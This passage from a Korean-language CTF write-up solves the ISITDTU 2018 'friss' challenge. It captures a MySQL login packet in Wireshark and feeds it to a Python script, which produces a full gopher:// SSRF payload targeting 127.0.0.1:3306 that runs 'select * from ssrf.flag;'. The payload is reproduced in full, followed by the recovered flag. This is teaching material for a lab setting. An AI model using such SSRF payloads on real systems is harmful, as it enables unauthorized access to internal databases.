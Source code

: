 해당 패킷에서 `마우스 오른쪽 버튼` > `Follow` > `TCP Stream`을 선택하면 아래와 같다.  

![](/images/CTF/ISITDTU2018/friss/friss_04.png)  

이 데이터를 하단에 `Show and save data as`를 `ASCII` 에서 `RAW`로 변경 해 주면 아래와 같이 raw data를 얻을 수 있다.  

![](/images/CTF/ISITDTU2018/friss/friss_05.png)  

위의 블록으로 지정한 부분이 MySQL에서 Login을 요청하는 Raw data가 된다.
이제 해당 내용을 복사 해 앞서 구한 파이썬 스크립트에 넣으면 `gopher` 프로토콜을 사용 한 `Request` 내용을 알려 줄 것이다.  

```sh
$ python ex.py 
Give connection packet of mysql: a800000185a6ff0100000001210000000000000000000000000000000000000000000000737372665f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f7069640537313730320f5f636c69656e745f76657273696f6e06352e372e3233095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c
Give query to execute: select * from ssrf.flag;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%73%73%72%66%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%37%31%37%30%32%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%33%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%3b%01%00%00%00%01
```

마지막에 나온 내용을 복사 해 문제의 입력 창에 넣으면 아래와 같이 flag를 얻을 수 있다.  

![](/images/CTF/ISITDTU2018/friss/friss_06.png)  

```plain
FLAG : ISITDTU{JUST_4_SSrF_B4B3!!}
```
